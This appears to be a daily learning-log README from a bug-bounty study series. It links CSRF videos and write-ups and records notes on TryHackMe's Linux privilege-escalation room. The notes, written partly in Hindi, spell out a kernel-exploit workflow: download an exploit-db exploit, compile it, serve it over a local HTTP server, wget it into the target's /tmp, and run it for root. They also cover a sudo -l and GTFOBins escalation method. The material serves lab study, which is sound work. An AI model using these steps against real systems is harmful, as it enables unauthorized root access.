 🎯 Day 9 Task


✅ CSRF Video


https://www.youtube.com/watch?v=iyE9UsBF64w

✅ POC


https://www.youtube.com/watch?v=TGJ4I-F5LhE


https://www.youtube.com/watch?v=YPnejsLPfVk


https://www.youtube.com/watch?v=gBdiKqNPQS8


https://www.youtube.com/watch?v=5jHIUTEdpvI



✅ CSRF Writeup 


https://infosecwriteups.com/understanding-exploiting-cross-site-request-forgery-csrf-vulnerabilities-935952375b71


https://huntr.dev/bounties/f952af13-8042-457d-b8d8-bd338987dc02/


✅ Tweet 


https://twitter.com/rootxyash/status/1480126074994368512


https://twitter.com/mavericknerd/status/1214071332083658757


-----------------------------------------------------------------------------------
🔁 THM Room 


➡ Working on Linux PrivEsc Room


✅ Completed till Task 6 Privilege Escalation Sudo 


https://tryhackme.com/room/linprivesc


For more Info check out my Github Repo


https://github.com/Imran407704/Learn365/


Some Tips :

The Kernel exploit methodology is simple :

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

Remember that: a failed kernel exploit can lead to a system crash :P

The Sudo exploit methodology :

1. First check how many programs normal user run with sudo rights -: sudo -l
2. go to https://gtfobins.github.io & search the binary file which have sudo rights  
3. Paste that Command & You are Root User :)


 Some Keywords : 
 
 
 ----------------------------------------------------------------------------------------------
| local system = my computer                                                                   |
| EXPL_FILE = Name of that Particular Exploit                                                  |
| IP:PORT = VPN IP (If you are on tryhackme) / local system IP:jo port se http server bana tha 
| - (hypen) = hypen ke baad command hai :) 
 ----------------------------------------------------------------------------------------------
 
My Steps for Kernel Exploit 

1. Exploit ko local system me - wget https://www.exploit-db.com/exploits/EXPL_FILE se download kiya  
2. gcc se complile kiya - gcc 12345.c exploit 
3. local system me http server banaya - sudo python3 -m http.server
4. & Then target machine ke tmp (temp) directory me jaana hai bcoz yehi directory aisi hai jisme hamey write ki permission hai mai ne home directory me bhi check kiya but waha par exploit ko local machine se transfer nhi kar pa rha tha - wget http://IP:PORT/exploit (remember that http use karna hai not https )
5. ./exploit 
ROOT User :)


My Steps for Sudo Exploit 
1. First check how many programs normal user run with sudo rights - sudo -l
2. go to https://gtfobins.github.io & search the binary file which have sudo rights  

------------------------------------------------------------------------------------------------------------------------------------------------------

#bugbounty #privesc #infosec #learn365
